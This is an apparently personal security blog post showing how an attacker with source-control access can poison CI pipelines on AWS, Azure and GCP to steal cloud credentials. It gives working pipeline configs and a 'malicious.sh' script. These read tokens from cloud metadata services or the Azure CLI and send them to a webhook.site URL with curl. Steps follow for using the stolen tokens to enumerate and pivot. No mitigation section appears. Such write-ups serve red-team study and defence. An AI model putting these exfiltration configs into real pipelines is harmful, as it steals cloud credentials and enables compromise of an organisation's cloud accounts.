 ```yaml
---
title: "Credential Theft via Direct Poisoned Pipeline Execution (Direct-PPE) Attacks on AWS, Azure, and GCP"
date: 2025-09-26T20:45:04+00:00
tags: ["Azure","AWS","GCP","DevOps","DevSecOps","pipeline","Poisoned Pipeline Execution","Direct-PPE"]
description: "In this short blog post, I’ll show how an attacker with existing access to a source code management (SCM) system can abuse malicious pipeline configurations to steal cloud tokens and escalate access across AWS, Azure, or GCP environments."
cover:
    image: "https://giomke.github.io/posts/authn/img/cover.png"
    alt: "Direct-PPE"
    relative: false
    hidden: false
    responsiveImages: true
---
```

# Credential Theft via Direct Poisoned Pipeline Execution (Direct-PPE) Attacks on AWS, Azure, and GCP
In this short blog post, I’ll show how an attacker with existing access to a source code management (SCM) system can abuse malicious pipeline configurations to steal cloud tokens and escalate access across AWS, Azure, or GCP environments.

## Direct-PPE
First, let’s clarify what Direct Poisoned Pipeline Execution (Direct-PPE) means and outline the breach scenario we’ll use to demonstrate how attackers can leverage it to further compromise cloud environments like AWS, Azure, and GCP.

Poisoned Pipeline Execution (PPE) risks refer to the ability of an attacker with access to source control systems - and without access to the build environment, to manipulate the build process by injecting malicious code/commands into the build pipeline configuration, essentially ‘poisoning’ the pipeline and running malicious code as part of the build process.

We have three types of PPE
- Direct PPE (D-PPE) : This occurs when an attacker gains direct access to the pipeline configuration. For example, they might obtain a personal access token (PAT), valid user credentials, or even a session cookie for the SCM platform, giving them the ability to modify and execute malicious changes in the pipeline configuration.
- Indirect PPE (I-PPE): This means the attacker doesn’t have direct access to the pipeline configuration files but can still compromise the pipeline by injecting malicious code into files referenced by the configuration. Examples include Makefiles, test code, scripts, or automation tools that the pipeline relies on during execution.
- Public-PPE (3PE): This is often the most dangerous scenario. If the CI pipeline of a public repository automatically runs unreviewed code submitted by anonymous contributors, it becomes vulnerable to a Public PPE (3PE) attack. This can lead to exposure of internal assets—such as secrets from private projects—especially when the public repository’s pipeline shares the same CI instance or infrastructure as private repositories.

In the next section, we’ll assume the breach has already occurred, the attacker has access to the SCM, access by having an authentication method to the organization’s source code management. It may be a personal access token (PAT), an SSH key, or any other allowed authentication credential. An example of a method an attacker can use to achieve this technique is using a phishing attack against an organization. We’ll explore how they can escalate privileges further to gain access to cloud environments.

## AWS
![image](/img/aws_killchain.png)

Because we have access to the code repository, we can use the Direct PPE attack vector to enumerate the permissions under which the pipeline is running. This can be done by querying the Instance Metadata Service (IMDS) available in the cloud environment.
In the example pipeline, I’m using webhook.site to exfiltrate captured data.

```yaml
version: 0.2

phases:
  pre_build:
    commands:
      - curl 'https://webhook.site/1ec8cf1f-cfb6-4c43-a743-7368135c8bca' -sH 'content-type:application/json' --data "$(curl http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI)"
```
You can manually retrieve the temporary role credentials from inside a container by appending the environment variable to the IP address of the Amazon ECS container agent and running the curl command on the resulting string.
```
curl 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI
```
This token and the role credentials are added to the agent's internal cache. The agent populates the environment variable AWS_CONTAINER_CREDENTIALS_RELATIVE_URI in the container with the URI of the credential ID (for example, /v2/credentials/12345678-90ab-cdef-1234-567890abcdef).

![image](/img/aws_webhook.png)

The exfiltrated token can then be stored in environment variables and used with the AWS CLI to interact with the compromised cloud environment.

![image](/img/awscli1.png)

After gaining initial access, you can begin enumerating the AWS environment to identify pivot points and locate weak spots that can be exploited for further privilege escalation or lateral movement.

![image](/img/awscli2.png)

![image](/img/awscli3.png)


## Azure
![image](/img/azure_killchain.png)

We can easily exfiltrate the Azure DevOps agent access token, enumerate Azure DevOps projects, and search for additional secrets or clues to further escalate our privileges.
If the pipeline configuration contains a service connection, as shown in the upcoming example, we can directly exfiltrate that service connection and pivot into Azure environments in a straightforward way.

```yaml
- task: AzureCLI@2
  inputs:
    azureSubscription: $(azureSubscription)
    scriptType: bash
    scriptLocation: inlineScript
    inlineScript: |
      # Export Azure access token
      ACCESS_TOKEN=$(az account get-access-token --query accessToken -o tsv)
      SUB_ID=$(az account show --query id -o tsv)
      curl 'https://webhook.site/1ec8cf1f-cfb6-4c43-a743-7368135c8bca' -sH 'content-type: text/plain' --data "ACCESS_TOKEN=$ACCESS_TOKEN SUB_ID=$SUB_ID"
```

![image](/img/azure_webhook.png)

Decode the JWT using JWT.io and under decoded payload section, note the value of field titled tid which will be the Account Id/Tenant ID.
- Tenant ID will also appear in other values as well.
- Additionally, subscription ID, resource group , and resource name will be present too.

![image](/img/azurecli.png)

Install Azure PowerShell module with the below command
```
Install-Module -Name Az -Repository PSGallery -Force
```

Run below PowerShell commands to authenticate with the
Azure Cloud using the exfiltrated Identity Token and the
Account ID (from decoding the JWT)

![image](/img/azurecli.png)

We have successfully established a connection to Azure, allowing us to continue with the post-exploitation process and expand our access within the environment!

## GCP
![image](/img/gcp_attackchain.png)

Just like AWS and Azure, GCP also provides a metadata service. We can leverage it in the same way to retrieve and exfiltrate access tokens for further use in the attack chain.

Create a Shell script file named malicious.sh in the root
directory of the source code. Using this file we’ll exfiltrate the
default service account token to the webhook dashboard.
```bash
#!/bin/sh
apt update && apt install curl -y
token=$(curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token" -H "Metadata-Flavor: Google")
echo $token > token.txt
curl -X POST 'https://webhook.site/1ec8cf1f-cfb6-4c43-a743-7368135c8bca' -sH 'content-type:application/json' --data '@token.txt'
```
Create a new build stage in cloudbuild.yaml file with the below
configurations.
```
- name: 'ubuntu'
args: ['bash', './malicious.sh']
```
![image](/img/gcp_webhook.png)

Use below command to inspect the details of an OAuth 2.0
access token issued by Google's IAM services.
```
curl https://oauth2.googleapis.com/tokeninfo?access_token=<EXFILTRATED_TOKEN>
```
![image](/img/gcpcli1.png)

Then we can enumerate the GCP project metadata with the
below command. It will give us the Project ID & other information.

![image](/img/gcpcli2.png)

We have successfully established a connection to GCP, allowing us to continue with the post-exploitation process and expand our access within the environment!

# Summary
This post explains how attackers can abuse Direct Poisoned Pipeline Execution (Direct-PPE) to steal credentials and escalate privileges in AWS, Azure, and GCP environments. Direct-PPE occurs when an attacker gains access to a source code management (SCM) system (e.g., via stolen credentials or a PAT) and modifies the pipeline configuration to run malicious commands.
Overall, the post highlights how attackers can pivot from SCM access to full cloud environment compromise using poisoned pipeline techniques.





